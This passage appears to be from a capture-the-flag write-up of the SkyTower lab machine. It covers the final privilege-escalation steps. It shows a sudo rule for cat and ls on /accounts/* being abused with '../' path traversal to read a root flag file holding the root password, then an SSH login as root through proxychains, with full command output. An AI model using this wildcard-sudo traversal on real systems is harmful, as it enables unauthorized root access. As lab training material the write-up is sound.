 The user sara is allowed to execute the cat and ls commands as sudo in the directory /accounts/, we will take advantage of this to get root.

```console
sara@SkyTower:~$ sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
```

### Sudo Permissions

Using sudo we can list the /root directory and read the flag that contains the password for the user root.

```console
sara@SkyTower:~$ sudo /bin/ls /accounts/../root
flag.txt
sara@SkyTower:~$ sudo /bin/cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
```

Finally we login via SSH as user root.

```console
root@kali:~$ proxychains ssh root@192.168.179.175 '/bin/bash -i'
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] Dynamic chain  ...  192.168.179.175:3128  ...  192.168.179.175:22  ...  OK
root@192.168.179.175's password: 
bash: cannot set terminal process group (-1): Invalid argument
bash: no job control in this shell
root@SkyTower:~# id
id
uid=0(root) gid=0(root) groups=0(root)  
```

